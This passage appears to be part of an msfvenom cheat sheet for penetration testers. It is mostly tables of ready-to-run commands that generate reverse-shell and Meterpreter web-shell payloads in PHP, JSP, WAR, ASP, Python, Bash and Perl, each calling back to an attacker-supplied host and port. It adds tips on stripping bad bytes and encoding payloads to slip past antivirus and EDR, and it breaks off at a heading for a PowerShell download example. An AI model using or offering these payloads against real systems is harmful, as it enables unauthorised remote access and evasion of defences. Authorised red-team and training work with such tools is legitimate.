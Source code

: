 ### Web / Script payloads (PHP, ASP, JSP, WAR)

|Command|Purpose|Notes|
|---|--:|---|
|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.php`|PHP Meterpreter web shell|Paste/upload to PHP-enabled server|
|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o phpreverseshell.php`|PHP reverse shell||
|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.jsp`|JSP reverse shell|Can also output WAR with `-f war`|
|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp -o shell.asp`|ASP Meterpreter shell|For classic ASP sites|

### Scripting languages (raw)

|Command|Purpose|
|---|--:|
|`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw -o shell.py`|Python reverse shell|
|`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw -o shell.sh`|Bash reverse shell|
|`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw -o shell.pl`|Perl reverse shell|

---

## Encoding, Bad chars & Obfuscation

- Avoid bad bytes with `-b`, for example:
    

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c -b "\x00\x0a\x0d"
```

- Use encoders (no guarantee against modern AV):
    

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c -e x86/shikata_ga_nai -i 5
```

- **Note:** Encoders like `shikata_ga_nai` only obfuscate — modern EDR/AV often detect encoded payloads. Consider custom stagers, signed binaries, or living-off-the-land techniques for advanced red teams (legal usage only).
    

---

## Advanced flags & examples

- Using architecture & platform:
    

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f exe -o calc.exe
```

- Complex command example (Nishang Powershell download executed in Python wrapper):
    